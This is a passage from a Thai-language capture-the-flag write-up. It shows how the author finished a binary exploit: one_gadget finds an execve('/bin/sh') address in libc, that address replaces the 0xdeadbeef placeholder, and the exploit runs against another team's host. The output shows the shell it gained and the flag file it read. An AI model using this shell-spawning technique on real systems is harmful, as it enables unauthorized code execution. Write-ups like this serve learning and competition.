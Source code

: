 ```

Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbeef in ?? ()
```

ปัญหาสุดท้ายแล้วต้อง jump ไปไหนหละถึงจะได้ shell พอถึงตรงนี้ก็ใกล้จบงานแล้ว เลยปลงไม่ได้ตั้งใจทำต่อ

หลังจากตรงนี้จะเป็น work หลังจากจบงานนะครับ (เศร้ามาก)

หลังจากจบงาน พึ่งมานึกได้ว่าโลกนี้มี `one_gadget` นี้หว่า จัดดิครับ

FYI: `one_gadget` คือ address ที่เมื่อ jmp ไปแล้วจะได้ shell เลยครับ ผมใช้ (https://github.com/david942j/one_gadget)

```
docker cp sql_demo_test:/lib/x86_64-linux-gnu/libc-2.31.so .
root@team3:~# one_gadget libc-2.31.so
0xc96da execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL

0xc96dd execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL
  [rdx] == NULL || rdx == NULL

0xc96e0 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

เปลี่ยน `spawn_shell_addr` จาก 0xdeadbeef เป็น one gadget เลยครับ

```
spawn_shell_addr = libc_addr + 0xc96da
```

สุดท้ายทักทายทีม @Earth sec guys ซักหน่อย และได้ flag (ทีม @Earch อยู่ที่ `10.60.6.3` นะครับ)

```
bongtrop@Pongsakorns-MacBook-Pro:client/ (master~) $ MY_IP=10.60.6.3 python spl_sql_demo_test_2.py
Start Exploit !
Local Test
Target: 10.60.6.3
Struct Addr: 0x55becfd6d1b0
: 0: can't access tty; job control turned off
$ id
uid=101(sql) gid=65534(nogroup) groups=65534(nogroup)
$ ls -alt | head
total 424
drwxr-xr-x 2 sql  root    4096 Sep 22 07:59 .
-rw-r--r-- 1 sql  nogroup 8192 Sep 22 07:59 uw09-9yv8-qs65
-rw-r--r-- 1 sql  nogroup 8192 Sep 22 07:58 4585-kb5e-5ri7
-rw-r--r-- 1 sql  nogroup 8192 Sep 22 07:57 8ltp-yr53-tewb
-rw-r--r-- 1 sql  nogroup 8192 Sep 22 07:56 svv7-bshi-1lw9
-rw-r--r-- 1 sql  nogroup 8192 Sep 22 07:55 o51r-r4a8-lbco
-rw-r--r-- 1 sql  nogroup    0 Sep 22 07:54 3uqm-ysiy-sst4
-rw-r--r-- 1 sql  nogroup 8192 Sep 22 07:53 zzxu-jp8z-7i32
-rw-r--r-- 1 sql  nogroup 8192 Sep 22 07:52 x7tb-3dbx-t6ca
$ cat uw09-9yv8-qs65
*]TEAM006_K9QOMEZO1X95CEA7978J2M30AE4C382D$ xt NOT NULL)
```
